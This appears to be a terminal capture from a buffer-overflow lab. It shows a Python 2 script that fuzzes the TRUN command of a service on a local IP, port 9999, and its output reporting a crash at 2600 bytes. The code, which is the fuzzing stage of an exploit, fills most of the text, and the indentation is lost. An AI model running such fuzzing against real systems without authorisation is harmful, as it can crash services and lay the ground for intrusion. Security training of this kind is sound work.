

┌──(lolpotch㉿Lolpotch)-[~]
└─$ cat 1.py
#!/usr/bin/python
import sys, socket
from time import sleep
buffer = "A" * 100
while True:
try: #IP Address Port
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.1.9', 9999))
# TRUN is based on command we found crashed when spiked
s.send(('TRUN /.:/' + buffer))
s.close()
sleep(1)
buffer = buffer + "A"*100
except:
print "Fuzzing crashed at %s bytes" % str(len(buffer))
sys.exit()
┌──(lolpotch㉿Lolpotch)-[~]
└─$ chmod +x 1.py
┌──(lolpotch㉿Lolpotch)-[~]
└─$ python2 1.py
^CFuzzing crashed at 2600 bytes
ImmunityDebugger.exe
